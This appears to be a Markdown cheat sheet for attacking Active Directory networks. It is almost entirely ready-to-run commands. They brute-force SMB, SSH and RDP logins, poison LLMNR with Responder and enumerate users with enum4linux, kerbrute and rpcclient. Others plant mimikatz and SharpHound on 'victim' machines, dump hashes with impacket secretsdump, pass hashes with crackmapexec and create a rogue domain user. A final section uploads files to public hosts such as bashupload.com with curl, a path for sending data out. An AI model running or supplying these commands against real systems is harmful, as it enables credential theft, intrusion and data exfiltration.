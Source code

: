 # <h3> Steps:-</h3>
```
1. First of all we want Inventory of organization
2. Separate IP’S of Systems, Servers, Networking Devices   
3. Verify these IP'S Using PingInfo / AngryIPScanner
4. Standeruser For Auth Scan but try from your END to find user/pass
```
# <h3> Target </h3>
```
For Ad Systems
1). Getting IP
2). Getting Local USER
3). Getting Local USER PASSWORD
4). Dump All Hashes 
5). Enumerate for AD User
6). Enumerate for AD User Password
7). Enumerate for AD Domain
8). Enumerate for AD Domain Password
9). Login
```
# <h3> Brute-Force As Local User On These Port's </h3>
```
FTP(21) 
SSH(22) 
Kerberos(89) 
SMB(139/445) 
LDAP(389) 
MSSQL(1433/1434) 
MYSQL(3306) 
RDP(3389) 
VNC(5900)
```
# <h2> Tool 1. TIP ( But Go For SMB First ) Only For local user account. </h2>
```
msfconsole
auxiliary/scanner/smb/smb_login
set PASS_FILE /root/Desktop/pass.txt
set USER_FILE /root/Desktop/user.txt
set RHOSTS file:/root/Desktop/host.txt
```
```
use auxiliary/scanner/smb/smb_enumshares
set rhosts 192.168.1.17
set smbuser user
set smbpass pass
exploit
```
```
use auxiliary/scanner/smb/smb_lookupsid
set rhosts 192.168.1.17
set smbuser user
set smbpass pass
exploit
```
# <h3> If AD Implemented. </h3>
```
set SMBDomain ADDomain 
```
# <h3> If LOCKOUT Policy is Set Then Use. </h3>
```
set ABORT_ON_LOCKOUT true
```
# <h2> Tool 2. Getting USERLLMNR/NBT-NS Poising with the help of Responder. </h2>
```
sudo responder -I ens33 -wdrf
```
# <h2> Tool 3. ENUM4LINUX. </h2>
```
enum4linux -U 10.10.0.50
enum4linux -S 10.10.0.50
enum4linux -P 10.10.0.50
enum4linux -o 10.10.0.50
enum4linux -U 10.10.0.50
enum4linux -a 10.10.0.50
```
# <h2> Tool 4. SMBMAP. </h2>
```
smbmap -H 192.168.1.40
smbmap -H 192.168.1.17 -u user -p pass

```
# <h2> Tool 5. SMBCLIENT. </h2>
```
smbclient -L //10.10.0.50/
smbclient -L //10.10.0.50/ -U '' -N
smbclient //10.10.0.50/tmp
```
# <h2> Tool 6. KERBRUTE. </h2>
```
msf> use auxiliary/gather/kerberos_enumusers
gobuster dns -d domain.local -t 25 -w /opt/Seclist/Discovery/DNS/subdomain-top2000.txt
enum4linux -a -u "" -p "" <DC IP> && enum4linux -a -u "guest" -p "" <DC IP>
smbmap -u "" -p "" -P 445 -H <DC IP> && smbmap -u "guest" -p "" -P 445 -H <DC IP>
smbclient -U '%' -L //<DC IP> && smbclient -U 'guest%' -L //
nmap -n -sV --script "ldap* and not brute" -p 389 <DC IP>
./kerbrute_linux_amd64 userenum -d lab.ropnop.com --dc 10.10.10.10 usernames.txt #From https://github.com/ropnop/kerbrute/releases
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN'" <IP>
Nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<domain>',userdb=/root/Desktop/usernames.txt <IP>
crackmapexec smb dominio.es  -u '' -p '' --users | awk '{print $4}' | uniq
GetADUsers.py -all -dc-ip 10.10.10.110 domain.com/username
enum4linux -a -u "user" -p "password" <DC IP>
crackmapexec smb --local-auth 10.10.10.10/23 -u administrator -H 10298e182387f9cab376ecd08491764a0 | grep +
```

# <h2> Tool 7. Bloodhound. </h2>
```
First Start ------>>>>> neo4j console
Open it in browser ------>>>>> http://localhost:7474/
Login with ------>>>>> neo4j/123456 Default pass is {neo4j/neo4j}
Open ------>>>>> bloodhound in terminal
Login ------>>>>> user/pass
```

# <h3> Connect with victim windows systems and put these 3 files. </h3>
```
1). mimikatz.exe
2). powerView.ps1
3). SharpHound.ps1
```

# <h3> Use these cmds in victim systems. </h3>
```
1). powershell -ep bypass
2). ..\SharpHound.ps1
3). Invoke-Bloodhound -CollectionMethod All -Domain controller.local -ZipFileName loot.Zip
```

# <h3> Take loot.Zip file to import bloodhound in our systems.  </h3>
```
1). import graph ---->>> uploaded file here
2). Check it and enjoy it.
```

# <h2> Tool 8. IMPACKET. </h2>
```
impacket-psexec ad.domain/user:pass@IP
impacket-wmiexec ad.domain/user:pass@IP
impacket-secretsdump ad.domain/user:pass@IP
impacket-GetADUsers ad.domain/user:pass@IP
impacket-mimikatz ad.domain/user:pass@IP
impacket-smbpasswd ad.domain/user:pass@IP
```
# <h2> Tool 9. RPC-Client. </h2>
```
rpcclient -U ad.domain%user:pass IP
Domain Information Query ----->>>> querydominfo
Enumerating Domain Users ----->>>> enumdomusers
Enumerating Domain Groups ----->>>> enumdomgroups
Group Queries ----->>>> querygroup 0x200
User Queries ----->>>> queryuser User
Enumerating Privileges ----->>>> enumprivs
Get Domain Password Information ----->>>> getdompwinfo
Creating Domain User  ----->>>> createdomuser hacker  ----->>>> setuserinfo2 hacker 24 Password@1
Delete Domain User ----->>>> deletedomuser hacker
Net Share Enumeration ----->>>> netshareenumall/netshareenum
```
# <h2> Tool 10. Transfer data from one system to another </h2>
```
1). putty-tools { used if SSH is opened to recevie any file}
pscp Aniket@192.168.138.116:/Users/Aniket/Desktop/task.txt ~/Documents 
2). python http.server
python -m SimpleHTTPServer 9000
python3 -m http.server 9000
3). Keep
Website --------------->>>>> https://www.keep.sh/
CMD --------->>>>> curl --upload-file ./your-file.txt https://free.keep.sh ------>>>>> https://free.keep.sh/9ab64df49d/your-file.txt
Download --------------->>>>> curl -L https://free.keep.sh/9ab64df49d/your-file.txt > your-file.txt 

4). Bashupload
Website --------------->>>>> https://bashupload.com/
CMD --------------->>>>> curl bashupload.com -T your_file.txt
Download --------------->>>>> wget bashupload.com -T your_file.txt
```
# <h2> Exploit Services by Searchsploit, Exploit DB </h2>
